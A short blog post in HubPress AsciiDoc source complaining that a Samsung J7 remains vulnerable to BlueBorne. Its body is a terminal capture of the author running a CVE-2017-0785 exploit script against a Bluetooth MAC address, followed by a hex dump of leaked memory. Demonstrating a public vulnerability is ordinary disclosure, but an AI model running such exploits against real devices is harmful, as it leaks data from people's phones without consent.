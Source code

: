// = Your Blog title
// See https://hubpress.gitbooks.io/hubpress-knowledgebase/content/ for information about the parameters.
// :hp-image: /covers/cover.png
// :published_at: 2019-01-31
// :hp-tags: HubPress, Blog, Open_Source,
// :hp-alt-title: My English Title
= "Happy" to see that Samsung doesn't give a shit about BlueBorne.

:hp-tags: Samsung, J7, BlueBorne
```
─[$]› python CVE-2017-0785.py TARGET=28:27:BF:3A:17:8A
[+] Exploit: Done
\x03\x00\x00\x00+\x00\x00    \x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x04\x00\x00\x05\x00\x00\x06\x00\x00\x07\x00\x0\x00\x00    \x00    
00000000  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
*
00000050  00 00 00 00  00 02 00 01  ea 3f 01 00  00 00 00 00  │····│····│·?··│····│
00000060  00 00 75 30  00 00 00 08  f3 95 73 88  ce 93 12 b7  │··u0│····│··s·│····│
...
```